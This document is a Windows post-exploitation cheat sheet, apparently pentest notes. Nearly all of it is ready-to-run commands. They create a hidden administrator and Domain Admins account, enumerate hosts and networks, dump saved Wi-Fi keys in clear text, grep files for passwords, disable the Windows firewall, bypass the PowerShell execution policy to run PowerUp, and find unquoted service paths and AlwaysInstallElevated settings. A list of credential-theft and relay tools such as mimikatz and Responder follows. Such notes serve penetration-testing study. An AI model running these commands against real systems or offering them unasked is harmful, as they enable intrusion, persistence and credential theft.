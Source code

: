 #### Creating an account
```
- net user name Username12345678* /add /Y
- net localgroup administrators name /add
- net localgroup "Remote Desktop Users" name /add #access RDP
- net localgroup "Backup Operators" name /add #full acceess to files
- net group "Domain Admins" name /add /domain
- net user name /ACTIVE:YES /domain` #enables domain user account
```

#### System Enum
```
- systeminfo
- systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
- hostname
- wmic qfe
- wmic qfe get Caption,Description,HotFixID,InstalledOn
- wmic logicaldisk get caption,description,providername
- whoami /priv
- whoami /groups
- net user babis
- net localgroup
- net localgroup administrators
- C:\Program Files
  - search for vulns in all installed software
```

#### Network Enum
```
- ipconfig /all
- netstat -ano #listening ports
- route print #routing table
- arp -a
- Netsh wlan show profile
- Netsh wlan show profile <SSID> key=clear

```

#### Passwords
```
- findstr /si password *.txt
- findstr /si password *.txt *.config *.ini
```

#### AV Enum
```
- sc query windefend
- sc queryex type= service
- netsh advfirewall firewall dump
- netsh firewall show state
- netsh firewall show config
- netsh firewall set opmode mode=disable
- netsh advfirewall firewall set opmode mode=disable

```
#### Tools
```
- PowerUp
  - powershell -ep bypass
  - import powerup
  - ..\PowerUp.ps1
  - then:
  - invoke-AllChecks
  - let this run
- WinPEAS
- Windows-exploit-suggester.py
- Bloodhound
- crackmapexec/netexec
  - SMB relay, Kerberoasting, ASREP Roasting
  - hash passing
- Impacket all - secrets.py
- Mitm6
- mimikatz
- ldapdomaindump
- Responder
- PEASS-ng
```

#### Unquoted service paths
```
CMD line
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

PowerShell
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

#### AlwaysInstallElevated
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

#### Sites:
- [LOLBAS](https://lolbas-project.github.io/#)
  - GTFObins of windows
- [hacktricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

